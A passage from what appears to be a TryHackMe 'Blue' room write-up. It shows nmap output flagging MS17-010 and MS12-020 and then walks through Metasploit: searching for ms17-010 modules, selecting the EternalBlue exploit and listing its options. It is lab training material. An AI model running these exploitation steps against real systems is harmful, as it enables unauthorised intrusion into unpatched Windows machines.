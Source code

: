 ```
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

It looks like there are several vulnerabilities on this machine: 
* `ms12-020` - Remote Desktop Protocol Denial Of Service Vulnerability (CVE-2012-0152)
* `ms12-020` - Remote Desktop Protocol Remote Code Execution Vulnerability (CVE-2012-0002)
* `ms17-010` - Remote Code Execution vulnerability in Microsoft SMBv1 servers (CVE-2017-0143)

However, THM seems to want us to focus on the `ms17-010` vulnerability. 

### Gain Access
The next several tasks in THM is to exploit the machine and gain a foothold. 

Let's start up **Metasploit**! Do this by running `msfconsole`. 

Now we'll look for the exploitation code to run against the machine. I do this by running the `search ms17-010` command.
```
msf5 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
Since this room is called **Blue**. We'll assume it'll be the one that says **eternalblue**, so let's use the following exploitation code: 

`use exploit/windows/smb/ms17_010_eternalblue`

Let's check what options there are for us to set before continuing:
```
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.
```
